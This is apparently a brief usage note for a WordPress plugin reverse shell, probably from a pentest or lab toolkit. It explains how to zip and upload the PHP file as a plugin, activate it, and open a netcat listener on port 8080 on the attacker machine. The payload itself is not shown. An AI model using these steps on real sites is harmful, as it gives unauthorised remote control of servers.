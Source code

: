 # wordpress_plugin_reverse_shell.php
# NOTE: PHP script uses example attacker machine IP:PORT - 127.0.0.1:8080

Instructions:

1.) Zip up php file.

2.) Navigate: 
WP UI -> Plugins -> Add New -> Upload Plugin -> Browse -> Install Now -> Activate Plugin

3.) Setup listening port with netcat from attacker machine:
netcat -lv 0.0.0.0 -p 8080
